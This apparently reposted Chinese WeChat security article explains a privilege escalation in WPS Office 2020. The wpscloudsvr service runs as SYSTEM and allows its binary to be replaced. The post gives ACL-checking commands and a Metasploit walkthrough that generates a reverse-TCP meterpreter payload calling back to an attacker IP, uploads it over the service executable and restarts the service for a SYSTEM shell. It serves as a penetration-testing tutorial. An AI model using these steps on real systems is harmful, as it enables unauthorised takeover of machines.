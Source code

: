 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/70D9SCrhLjU9mQHs-t6Nkw)
| 

**声明：**该公众号大部分文章来自作者日常学习笔记，也有少部分文章是经过原作者授权和其他公众号白名单转载，未经授权，严禁转载，如需转载，联系开白。

请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。

 |

**0x01 前言**

wpscloudsvr 服务用于提供 WPSOffice 云服务，其中包括：云文档，文件安全性，VIP 服务等，以实现完整和安全的用户体验，及时更新和错误修复，停止此服务将禁用云服务和及时错误修复等。  

但这个服务貌似并没有起到其实际作用，因为它默认为停止状态，启动类型为禁止或者手动，而且运行的是 WPSOffice 安装目录下的 wpscloudsvr.exe，并非该服务指定的 wpscloudsvr.exe。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOcZQhwN6iaoFRaJ5WOd4ZVTBF7iaCxleU4wrsOBGUTC4CMHhoTszatmrQT02mEpuLVhlCN4ZxnJwhicg/640?wx_fmt=png)

**本地测试环境信息：**

```
操作系统：Windows 10教育版17134、Windows Server 2016 Datacenter
软件版本：WPS Office 2020 11.1.0.9999
WPS Office安装路径：D:\WPS Office\
WPS Office进程名：wps.exe、wpscloudsvr.exe等
WPS Office服务名：wpscloudsvr（WPS Office Cloud Service）
```

**0x02 绕过原理分析**

WPSOffice 在安装时创建的 wpscloudsvr 服务默认是以 SYSTEM 权限运行的，而且允许在 ApplicationPoolIdentity、NetworkService 和未过 UAC 的用户启动和停止该服务，并且有权限替换服务指定的 wpscloudsvr.exe，所以能够直接利用这种方式进行权限提升，但需要注意以下几点。

1. 不是所有服务都可以用未过 UAC 的用户来启动和停止的，如：KugouService、Everything 等；

2. wpscloudsvr.exe Users 权限问题，Win10 和 2016 默认给的权限不一样，可能会替换不了文件；

3. WPSOffic 新版本中可能已经修复该问题，可以替换文件，但是不能启动 wpscloudsvr 服务；

```
get-acl .\wpscloudsvr.exe | format-list
icacls wpscloudsvr.exe
net start wpscloudsvr
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOcZQhwN6iaoFRaJ5WOd4ZVTBpc2ZBaDTH1p5JJPHwtOicHIDUzibwJDsrGIwZlblH6N5dCgulNr6QqbQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOcZQhwN6iaoFRaJ5WOd4ZVTBibfMmoib1Yib0ERDRIooRM0S5U0qICyV6PH9Pms92t7qNsEKH2bx77ia2w/640?wx_fmt=png)

**0x02 模拟实战测试**

(1) 使用 MSF 下的 post/windows/gather/enum_services 模块获取当前主机上的服务信息，找到一个以 SYSTEM 权限运行的 wpscloudsvr 服务，并且可用 net 命令停止和开启该服务。  

```
meterpreter > run post/windows/gather/enum_services
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOcZQhwN6iaoFRaJ5WOd4ZVTBibCq3M0Zq7KEcuPGSdNelDyKy6WDnd0BcMt8zdM7EDM1OS1iaWljEzUw/640?wx_fmt=png)

(2) 既然有权限启动和停止 wpscloudsvr 服务，那么我们就直接将该服务的可执行文件替换为远控马或 MSF 攻击载荷，不过必须拥有 Users 完全控制权限才可替换，替换前记得备份一下，然后依次执行以下命令并重启 wpscloudsvr 服务后即可得到一个 SYSTEM 权限会话。

```
root@kali:~# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.120 LPORT=443-f exe > /tmp/wpscloudsvr.exe

meterpreter > cd C:\\ProgramData\\Kingsoft\\office6\\
meterpreter > cp wpscloudsvr.exe wpscloudsvr1.exe
meterpreter > upload /tmp/wpscloudsvr.exe wpscloudsvr.exe
meterpreter > execute -Hc -i -f "c:\\windows\\system32\\cmd.exe" -a "/c net start wpscloudsvr"
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOcZQhwN6iaoFRaJ5WOd4ZVTBIibbwbhBjZsVmQunI0t3mMicBxdqFJicB8DbZ7fMeAPAUiaXmbzfp1Gibmw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOcZQhwN6iaoFRaJ5WOd4ZVTBt9Xzia5LqCGJ7ZYSyrjgB4r8as65ziaWmRHbmWwa8YCu9GcqXjgoykgw/640?wx_fmt=png)

**参考文章：**

[https://mp.weixin.qq.com/s/s1xWapre2xa5bAP-VoY_Ww](https://mp.weixin.qq.com/s?__biz=MzI5MDE0MjQ1NQ==&mid=2247491103&idx=1&sn=62957c6216e5d6744ab9662c04a53955&scene=21#wechat_redirect)

只需在公众号回复 “9527” 即可领取一套 HTB 靶场学习文档和视频，“1120” 领取安全参考等安全杂志 PDF 电子版，“1208” 领取一份常用高效爆破字典，还在等什么？

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfSyD5Wo2fTiaYRzt5iaWg1GJk2Cx54PBIoc0Ia3z1yIfeyfUV61mn3skB5bGP3QHicHudVjMEGhqH4A/640?wx_fmt=png)